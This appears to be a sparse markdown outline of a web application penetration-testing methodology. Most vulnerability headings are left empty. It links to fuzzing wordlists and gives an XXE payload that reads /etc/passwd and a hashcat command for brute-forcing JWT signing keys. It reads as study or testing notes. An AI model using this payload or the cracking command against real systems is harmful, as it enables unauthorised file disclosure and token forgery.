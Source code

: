# Methodology

## Step 1 - Enumeration
### Directory fuzzing
Directory fuzzing list [here](https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/dirsearch.txt)

### Directory fuzzing


## Step 2 - Identify vulnrabilities
### SQL injections
### NoSQL injections
### Authentication
### Path traversal
### Command injection
### Business logic vulnerabilities
### Information disclosure
### Access control
### Command injection
### File upload
### Race conditions
### Server-side request forge (SSRF)
### Path traversal
#### LFI fuzzing
Fuzzing list [here](https://raw.githubusercontent.com/danielmiessler/SecLists/master/Fuzzing/LFI/LFI-Jhaddix.txt)

### XXE Injection
```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<stockCheck><productId>&xxe;</productId></stockCheck>
```
### Cross-site scripting (XSS)
### Cross-site request forge (CSRF)
### Cross-origin resource sharing (CORS)
### Clickjacking
### DOM-based vulnerabilities
### WebSockets
### Insecure deserialization
### GraphQL API vulnerabilities
### Server-side template injection
### Web cache poisoning
### HTTP Host header attacks
### HTTP request smuggling
### OAuth authentication
### JWT attacks
#### Brute force key
Word list [here](https://github.com/wallarm/jwt-secrets/blob/master/jwt.secrets.list)
```
hashcat -a 0 -m 16500 <jwt> <wordlist>
```
### Prototype pollution
